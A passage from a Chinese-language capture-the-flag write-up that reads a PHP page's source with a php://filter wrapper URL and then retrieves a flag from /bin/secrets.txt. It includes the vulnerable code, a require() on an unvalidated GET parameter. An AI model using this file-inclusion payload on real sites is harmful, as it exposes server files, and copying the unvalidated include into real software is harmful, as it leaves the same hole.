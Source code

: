 ### 解题思路
> - 注意到 url：`http://ctf.bennetthackingcommunity.cf:8333/index.php?file=index.html`，猜测存在伪协议文件读取：`http://ctf.bennetthackingcommunity.cf:8333/index.php?file=php://filter/read=convert.base64-encode/resource=index.php`，成功读取到 index.php 的源码

```php
<?php

if(!isset($_GET["file"])){
    header("location: http://ctf.bennetthackingcommunity.cf:8333/index.php?file=index.html");
    exit;
}

else{
    require($_GET['file']);
}

#note to myself: delete /bin/secrets.txt!
?>
```

> - 根据提示读取 `/bin/secrets.txt`，成功获得 Flag

<img src="./images/2.png" alt="">

## git commit -m "whatever"
### 题目描述
```
Visit the website
```
